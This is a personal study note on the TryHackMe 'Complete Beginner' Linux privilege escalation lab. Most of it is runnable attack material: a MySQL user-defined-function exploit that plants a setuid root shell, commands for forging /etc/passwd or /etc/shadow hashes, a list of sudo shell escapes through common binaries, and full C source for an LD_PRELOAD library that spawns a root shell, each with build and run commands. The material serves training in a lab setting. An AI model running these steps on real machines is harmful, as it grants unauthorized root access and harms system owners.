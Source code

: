# TryHackMe: Complete Beginner

## Linux PrivEsc

### Service Exploits

[Exploiting MySQL running as root via a malicious user-defined function dynamic library.](https://www.exploit-db.com/exploits/1518)

The key to this is that if MySQL is running as root, then it can write files to all manner of directories. We use this to load a malicious library (raptor_udf2.so from the above ExploitDB link) as a plugin by first dumping it as a blob into a table and then dumping it back out in MySQL’s plugin directory. Once there, we define a UDF using the malicious plugin to allow us to execute system commands; in particular, this lets us set the sticky bit on a copied shell that we can then execute to obtain root.

```bash
cd /home/user/tools/mysql-udf
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
cat > rootme.sql <<EOF
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
EOF
mysql -u root mysql < rootme.sql
/tmp/rootbash -p # Root!
```

### Weak File Permissions

Make a new password hash for /etc/password or /etc/shadow:

```bash
mkpasswd -m sha-512 $PASSWORD
```

[It’s also possible to generate MD5 passwords for /etc/passwd using the openssl binary.](../notes/LFI%20(Local%20File%20Inclusion)%20Attacks.md)

### Sudo

Some shell escapes via [GTFOBins](https://gtfobins.github.io):

* `awk` — `awk 'BEGIN {system("/bin/sh")}'`
* `find` — `find . -exec /bin/sh \; -quit`
* `ftp` — `!/bin/sh`
* `iftop` — `!/bin/sh`
* `less` — `!/bin/sh`
* `man` — `!/bin/sh`
* `more` — `!/bin/sh` (may require TERM to be unset)
* `nano` — ^R^X followed by `reset; sh 1>&0 2>&0`
* `nmap` — create a file containing `os.execute("/bin/sh")` and then run `nmap --script=$FILE`
* `vim` — `:set shell=/bin/sh` followed by `:shell`

If LD_PRELOAD or LD_LIBRARY_PATH are preserved by sudo, then it’s also possible to use a malicious dynamic library to gain root access. Preserved environment variables are listed by `sudo -l`.

LD_PRELOAD is probably the easiest of these to exploit, because a library listed in this environment variable is just automatically loaded on application start. So just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`.

A simple malicious library (perhaps *the* simplest) that can exploit the LD_PRELOAD trick is:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -shared -nostartfiles -o /path/to/malicious.so /path/to/malicious.c
```

Using LD_LIBRARY_PATH is a bit trickier; use ldd to see what libraries a program is already pulling in, and then name your malicious library after one of these. Then run `sudo LD_LIBRARY_PATH=/path/to/malicious/library program-runnable-with-nopasswd` to trick the program into loading your malicious library instead of the legitimate system library.

While the same code as LD_PRELOAD can be used as a starting point for an LD_LIBRARY_PATH exploit, things get trickier because some libraries are required by others, loaded at different times, or have functions (symbols) that are loaded but not used right away. So some amount of trial-and-error, both in the naming of the malicious library and in what functions are defined within it, may be required.

NOTE that not every UNIX-like system calls their library path LD_LIBRARY_PATH!

- - - -

👤 Nathan Acks
📅 October 30, 2021
